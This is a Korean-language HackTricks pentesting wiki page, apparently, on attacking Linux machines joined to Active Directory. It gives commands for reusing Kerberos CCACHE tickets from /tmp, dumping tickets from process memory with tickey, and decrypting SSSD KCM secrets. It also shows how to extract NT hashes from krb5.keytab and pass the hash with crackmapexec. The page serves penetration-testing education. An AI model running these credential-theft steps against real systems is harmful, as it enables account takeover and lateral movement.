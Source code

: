 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

리눅스 머신은 Active Directory 환경 내에 존재할 수 있습니다.

AD의 리눅스 머신은 **파일 내에 다양한 CCACHE 티켓을 저장하고 있을 수 있습니다. 이 티켓은 다른 kerberos 티켓처럼 사용되고 악용될 수 있습니다**. 이 티켓을 읽으려면 티켓의 사용자 소유자이거나 **root**여야 합니다.

## Enumeration

### 리눅스에서 AD 열거하기

리눅스(또는 Windows의 bash)에서 AD에 접근할 수 있다면 [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)를 사용하여 AD를 열거할 수 있습니다.

리눅스에서 AD를 열거하는 **다른 방법**을 배우려면 다음 페이지를 확인하세요:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA는 Microsoft Windows **Active Directory**에 대한 오픈 소스 **대안**으로, 주로 **Unix** 환경을 위해 설계되었습니다. Active Directory와 유사한 관리 기능을 위해 MIT **Kerberos** 키 배포 센터와 완전한 **LDAP 디렉토리**를 결합합니다. CA 및 RA 인증서 관리를 위한 Dogtag **Certificate System**을 활용하며, 스마트카드를 포함한 **다중 인증**을 지원합니다. Unix 인증 프로세스를 위해 SSSD가 통합되어 있습니다. 자세한 내용은 다음에서 확인하세요:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## 티켓 다루기

### Pass The Ticket

이 페이지에서는 **리눅스 호스트 내에서 kerberos 티켓을 찾을 수 있는 다양한 장소**를 찾을 수 있으며, 다음 페이지에서는 이 CCache 티켓 형식을 Kirbi(Windows에서 사용해야 하는 형식)로 변환하는 방법과 PTT 공격을 수행하는 방법을 배울 수 있습니다:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp에서 CCACHE 티켓 재사용

CCACHE 파일은 **Kerberos 자격 증명**을 저장하기 위한 이진 형식으로, 일반적으로 `/tmp`에 600 권한으로 저장됩니다. 이 파일은 **이름 형식 `krb5cc_%{uid}`**로 식별할 수 있으며, 이는 사용자의 UID와 관련이 있습니다. 인증 티켓 검증을 위해 **환경 변수 `KRB5CCNAME`**을 원하는 티켓 파일의 경로로 설정하여 재사용할 수 있습니다.

`env | grep KRB5CCNAME`으로 인증에 사용되는 현재 티켓을 나열합니다. 형식은 이식 가능하며, `export KRB5CCNAME=/tmp/ticket.ccache`로 환경 변수를 설정하여 티켓을 **재사용할 수 있습니다**. Kerberos 티켓 이름 형식은 `krb5cc_%{uid}`이며, 여기서 uid는 사용자 UID입니다.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE 티켓 재사용 from keyring

**프로세스의 메모리에 저장된 Kerberos 티켓은 추출될 수 있습니다**, 특히 머신의 ptrace 보호가 비활성화된 경우(`/proc/sys/kernel/yama/ptrace_scope`). 이 목적을 위한 유용한 도구는 [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)에서 찾을 수 있으며, 세션에 주입하고 `/tmp`에 티켓을 덤프하여 추출을 용이하게 합니다.

이 도구를 구성하고 사용하기 위해서는 아래 단계를 따릅니다:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
이 절차는 다양한 세션에 주입을 시도하며, 성공을 나타내기 위해 추출된 티켓을 `/tmp`에 `__krb_UID.ccache`라는 명명 규칙으로 저장합니다.


### SSSD KCM에서 CCACHE 티켓 재사용

SSSD는 `/var/lib/sss/secrets/secrets.ldb` 경로에 데이터베이스의 복사본을 유지합니다. 해당 키는 `/var/lib/sss/secrets/.secrets.mkey` 경로에 숨겨진 파일로 저장됩니다. 기본적으로, 키는 **root** 권한이 있는 경우에만 읽을 수 있습니다.

\*\*`SSSDKCMExtractor` \*\*를 --database 및 --key 매개변수와 함께 호출하면 데이터베이스를 구문 분석하고 **비밀을 복호화**합니다.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
The **자격 증명 캐시 Kerberos blob은 Mimikatz/Rubeus에 전달할 수 있는 사용 가능한 Kerberos CCache** 파일로 변환될 수 있습니다.

### keytab에서 CCACHE 티켓 재사용
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab에서 계정 추출

루트 권한으로 운영되는 서비스에 필수적인 서비스 계정 키는 **`/etc/krb5.keytab`** 파일에 안전하게 저장됩니다. 이러한 키는 서비스의 비밀번호와 유사하며, 엄격한 기밀성을 요구합니다.

keytab 파일의 내용을 검사하기 위해 **`klist`**를 사용할 수 있습니다. 이 도구는 사용자 인증을 위한 **NT Hash**를 포함한 키 세부 정보를 표시하도록 설계되었습니다. 특히 키 유형이 23으로 식별될 때 그렇습니다.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux 사용자에게 **`KeyTabExtract`**는 NTLM 해시 재사용을 위해 활용할 수 있는 RC4 HMAC 해시를 추출하는 기능을 제공합니다.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS에서 **`bifrost`**는 keytab 파일 분석을 위한 도구로 사용됩니다.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
추출된 계정 및 해시 정보를 활용하여 **`crackmapexec`**와 같은 도구를 사용하여 서버에 연결할 수 있습니다.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
